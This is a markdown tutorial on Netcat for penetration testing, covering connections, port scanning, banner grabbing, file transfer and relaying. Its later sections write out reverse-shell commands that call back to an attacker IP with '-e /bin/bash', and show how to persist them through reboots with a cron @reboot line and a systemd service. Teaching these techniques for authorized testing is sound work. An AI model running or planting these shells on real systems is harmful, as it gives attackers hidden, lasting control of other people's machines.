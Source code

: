 # Netcat

### **Introduction to Netcat**

Netcat, often referred to as the "Swiss Army knife" of networking tools, is a versatile utility used for reading from and writing to network connections using TCP or UDP protocols. It can be used for a variety of purposes such as port scanning, banner grabbing, file transfers, and even creating reverse shells.

### **Installing Netcat**

Netcat is available on most Unix-like systems and can be installed via package managers. Here are the installation commands for different operating systems:

- **Debian/Ubuntu:**
  ```bash
  sudo apt-get install netcat
  ```

- **Red Hat/CentOS:**
  ```bash
  sudo yum install nc
  ```

- **Windows:**
  Download the binary from the official website or use the built-in version on Windows 10.

### **Basic Usage**

#### **1. Connecting to a Server**

To connect to a remote server on a specific port:

```bash
nc <hostname> <port>
```

Example:
```bash
nc example.com 80
```

This command will open a TCP connection to `example.com` on port 80. You can then manually type HTTP commands to interact with the web server.

#### **2. Listening for Connections**

To make your system listen for incoming connections on a specific port:

```bash
nc -l -p <port>
```

Example:
```bash
nc -l -p 12345
```

This command will make Netcat listen on port 12345 for incoming connections.

### **Port Scanning**

#### **1. Scanning a Single Port**

To scan a single port on a remote host:

```bash
nc -zv <hostname> <port>
```

Example:
```bash
nc -zv example.com 80
```

The `-z` option tells Netcat to scan without sending data, and `-v` enables verbose mode.

#### **2. Scanning a Range of Ports**

To scan a range of ports:

```bash
nc -zv <hostname> <startport>-<endport>
```

Example:
```bash
nc -zv example.com 80-100
```

This command will scan ports 80 to 100 on `example.com`.

### **Banner Grabbing**

Banner grabbing is useful for identifying services running on open ports.

```bash
nc -v <hostname> <port>
```

Example:
```bash
nc -v example.com 80
```

When connected, type any random text and hit enter to receive a response from the server, which often includes a banner.

### **File Transfer**

#### **1. Sending Files**

On the sending machine:

```bash
nc <destination_ip> <port> < <filename>
```

Example:
```bash
nc 192.168.1.2 12345 < file.txt
```

#### **2. Receiving Files**

On the receiving machine:

```bash
nc -l -p <port> > <filename>
```

Example:
```bash
nc -l -p 12345 > received_file.txt
```

### **Creating Reverse Shells**

Reverse shells are a common technique used in penetration testing to gain control over a target machine.

#### **1. On the Attacker's Machine**

Start by listening for incoming connections:

```bash
nc -l -p 4444
```

#### **2. On the Target Machine**

Initiate a reverse shell connection back to the attacker's machine:

```bash
nc <attacker_ip> <port> -e /bin/bash
```

Example:
```bash
nc 192.168.1.2 4444 -e /bin/bash
```

This will provide a shell back to the attacker's machine.

### **Persistent Reverse Shell**

To ensure the reverse shell persists through reboots, you can create a cron job or a systemd service on the target machine.

#### **1. Using Cron Job**

Edit the cron jobs with:

```bash
crontab -e
```

Add the following line:

```bash
@reboot nc <attacker_ip> <port> -e /bin/bash
```

#### **2. Using systemd Service**

Create a new service file in `/etc/systemd/system/reverse-shell.service`:

```ini
[Unit]
Description=Reverse Shell

[Service]
ExecStart=/bin/nc <attacker_ip> <port> -e /bin/bash
Restart=always

[Install]
WantedBy=multi-user.target
```

Enable and start the service:

```bash
sudo systemctl enable reverse-shell.service
sudo systemctl start reverse-shell.service
```

### **Relaying and Proxying**

Netcat can be used to relay traffic between two machines.

#### **1. Relay Traffic**

On the relay machine:

```bash
mkfifo /tmp/fifo
nc -l -p 12345 < /tmp/fifo | nc <destination_ip> 80 > /tmp/fifo
```

This command creates a named pipe and relays traffic from port 12345 to port 80 on the destination IP.

### **Conclusion**

Netcat is a powerful and versatile tool that can be leveraged in various scenarios during penetration testing. Understanding its capabilities and applications is crucial for any penetration tester. Practice these commands in a controlled environment to become proficient in their usage. Always ensure you have proper authorization before performing any penetration testing activities.


